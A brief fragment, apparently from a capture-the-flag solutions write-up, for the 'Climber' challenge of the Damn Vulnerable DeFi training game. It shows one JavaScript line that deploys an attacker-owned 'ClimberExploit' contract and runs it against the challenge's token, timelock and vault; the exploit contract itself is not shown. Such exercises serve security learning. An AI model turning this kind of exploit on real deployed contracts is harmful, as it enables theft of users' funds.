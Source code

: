 ### [Climber](https://www.damnvulnerabledefi.xyz/challenges/12.html)
``` JS
await (await (await ethers.getContractFactory('ClimberExploit', attacker)).deploy()).exploit(
	this.token.address,
	this.timelock.address,
	this.vault.address
)
```
